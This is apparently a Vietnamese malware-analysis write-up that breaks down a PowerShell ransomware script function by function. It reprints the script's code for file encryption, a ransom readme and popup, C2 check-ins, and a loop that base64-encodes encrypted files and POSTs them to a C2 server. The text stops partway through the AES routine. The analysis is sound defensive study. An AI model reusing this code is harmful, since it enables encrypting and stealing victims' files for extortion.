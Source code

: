 ```powershell
   foreach ($i in $(Get-ChildItem $Directory -recurse -filter *.enc | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) {
      $Pfile = $i.split($slash)[-1] ; $B64file = R64Encoder -f $i ; $B64Name = R64Encoder -t $Pfile
      Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
   else { $B64Name = R64Encoder -t "none.null" ; Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
function CheckFiles { 
   $RFiles = Get-ChildItem $Directory -recurse -filter *.enc ; if ($RFiles) { $RFiles } else {
   Write-Host "[!] No encrypted files found!" -ForegroundColor Red }}
# Main
if ($Mode -eq "-d") { 
   Write-Host ; Write-Host "[!] Shutdowning...." -ForegroundColor Red; sleep 1 }
else {
   Write-Host ;
   Write-Host "[+] Checking communication with C2 Server.." -ForegroundColor Blue
   $DCe = GetStatus ; sleep 1
   $WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})
   Write-Host "[!] Encrypting ..." -ForegroundColor Red
   CreateReadme ; EncryptFiles ; if ($DCe) { SendResults ; sleep 1
   if ($ENyR -eq "-x") { Write-Host "[i] Exfiltrating ..." -ForegroundColor Green
      ExfiltrateFiles ; sleep 1 }}
   if (!$DCe) { Write-Host "[+] Saving logs in yaginote.txt.." -ForegroundColor Blue }
   else { Write-Host "[+] Sending logs to C2 Server.." -ForegroundColor Blue }}
   if ($args -like "-demo") { RemoveWallpaper ; PopUpRansom
   if ($PayNow -eq "True") { SendPay ; SendOK } else { SendClose ; SendOK }}
   else { SendOK }
sleep 1000 ; Write-Host "[i] Done!" -ForegroundColor Green ; Write-Host                                   
```

Tôi đã cop ra [docs](https://docs.google.com/document/d/1ONw-2dEYTZqAEQ83a8qikqg82mWUqinV-8d-8GkBg3A/edit) và hightlight một số hàm cho dễ nhìn

### Phân tích

Đây là một đoạn code PowerShell để thực hiện mã hóa tài liệu của đối tượng mục tiêu và đòi tiền chuộc (như mô tả).

Một số hàm quan trọng chúng ta cần phân tích như:
1. `function Invoke-AESEncryption` mã hóa theo `thuật toán AES`
2. `function R64Encoder` mã hóa đặc biệt của `base64`
3. `function SendResults` gửi đi `data` và `logs` thông tin của tiến trình hoạt động.
4. `function EncryptFiles` mã hóa các file mục tiêu.
5. `function ExfiltrateFiles` mã hóa và gửi dữ liệu đi.
6. Và hàm `main` ở cuối.

Chúng ta sẽ đi phân tích từng hàm

1. `function Invoke-AESEncryption` mã hóa theo `thuật toán AES`

```powershell
function Invoke-AESEncryption {
   [CmdletBinding()]
   [OutputType([string])]
   Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
       [String]$Text,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)
   Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
```
